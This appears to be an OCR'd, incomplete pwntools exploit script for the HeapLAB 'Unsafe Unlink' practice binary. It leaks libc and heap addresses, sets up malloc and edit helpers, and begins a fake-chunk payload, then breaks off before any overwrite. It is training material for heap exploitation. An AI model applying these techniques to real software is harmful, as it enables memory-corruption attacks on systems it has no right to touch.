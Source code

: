 ```python

# -- Exploit goes here --

"""
./unsafe_unlink 

===============
|   HeapLAB   |  Unsafe Unlink
===============

puts() @ 0x738c414675a0
heap @ 0x5b6e25b9a000

1) malloc 0/2
2) edit
3) free
4) quit
> 

"""

def malloc(size):
    global idx
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size:', str(size).encode())
    idx += 1   
    return idx - 1

def edit(idx, data):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index:', str(idx).encode())
    io.sendlineafter(b'data:', data)              

io = start()

io.recvuntil(b'puts() @ ')

# puts
puts = io.recvline().strip().decode()
puts = int(puts, 16)
libc.address = puts - libc.sym.puts
log.info(f'libc base: {hex(libc.address)}') 

# heap
io.recvuntil(b'heap @ ')
heap = io.recvline().strip().decode()
heap = int(heap, 16)
log.info(f'heap base: {hex(heap)}')


idx = 0

chunk_A = malloc(0x88)  # idx 0
chunk_B = malloc(0x88)  # idx 1

# Make chunk_A valid chunk
"""
0x555555603000	0x0000000000000000	0x0000000000000091	
0x555555603010	0x00000000deadbeef	0x00000000cafebabe
"""

payload = p64(0xdeadbeef) # fd
payload += p64(0xcafebabe) # bk
```